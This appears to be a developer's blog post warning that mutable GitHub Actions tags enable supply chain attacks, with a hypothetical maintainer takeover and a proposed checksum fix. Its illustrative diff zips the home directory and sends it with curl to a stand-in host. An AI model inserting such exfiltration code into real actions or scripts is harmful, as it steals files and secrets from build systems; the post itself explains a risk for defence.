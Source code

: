 ```yaml
---
date: 20240511
title: GitHub Actions beg for a supply chain attack
description: We're asking for something bad to happen.
---
```


# GitHub Actions beg for a supply chain attack

# What's the problem

When the GitHub Actions runner sees

```yaml
- name: Clone repository
  uses: actions/checkout@v4
```

it `git clone`s the `checkout` repository of the `actions` user/organization on
GitHub and then switches to the git tag named `v4`. The `actions` org is
maintained by GitHub staff, so we trust it to be secure and well-behaved.

Recently though, a cool new framework is taking off. It's called `foo`. Your
company decides to build a project with it and one of your tasks in the current
sprint is to set up a CI pipeline. Fortunately, the open-source community
delivers once again; you quickly discover that somebody has already created an
Action to make setup easy:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
```

Some time later `alice` stops maintaining the `setup-foo` action, but she wants
the Action to live on, so she appoints a new friendly person who's been around
the repo for a while and contributed a few PRs. That's how `malloy` becomes the
maintainer of `setup-foo`.

Some time later, `malloy` makes a new release of `setup-foo` with the following
code:

```diff
 #!/usr/bin/env sh
 echo "imagine there is shell code here"
+cd ~ && zip -r nothing_really.zip .
+curl \
+  --request POST https://totally-legit-server.ru \
+  --form "file=@$HOME/nothing_really.zip"
+cd -
 echo "legit shell code"
 echo "more legit shell code"
```

The change is introduced in a commit with the message "bump deps" that removes
6969 and adds 2137 lines of code to many files, mostly `package-lock.json`. Then
`malloy` releases this new version as `v2.1`:

```console
git commit -m "bump deps" && git push origin master
git tag v2.1
```

and then he moves the `v2` tag to point to the same commit as `v2.1`, [**just
like GitHub recommends**][gh]:

```console
git tag --delete v2 # delete tag locally
git push origin :v2 # delete tag on the remote
git tag v2
git push --tags
```

It's a Friday night. Hundreds of thousands of nightly builds run, in thousands
of repositories, including private ones.

No one notices anything for a few days.

# Possible fix

My knowledge of the cybersecurity landscape is very basic, but I suppose a
solution could be for GitHub to deprecate the current way of using external
actions, and require us to provide a checksum:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
  sha256: ea3a03b4971eeb62730e1de238225cc4e6145f0eb50ad28b1379f2a2ee71e16e
```

The problem with the above is twofold:

- First and foremost, it no longer looks as sexy.
- Realistically, who checks the diff when bumping the dependencies?

---

I maintain the GiHub Actions called [subosito/flutter-action][^1]. If you
enjoyed the read, consider [sending me a few bucks for coffee][sponsor]. I pinky
promise to never perform a supply chain attack on you.

[gh]: https://docs.github.com/en/actions/creating-actions/about-custom-actions#using-tags-for-release-management
[sponsor]: https://github.com/sponsors/bartekpacia
[subosito/flutter-action]: https://github.com/subosito/flutter-action

[^1]: It should be named `setup-flutter`.
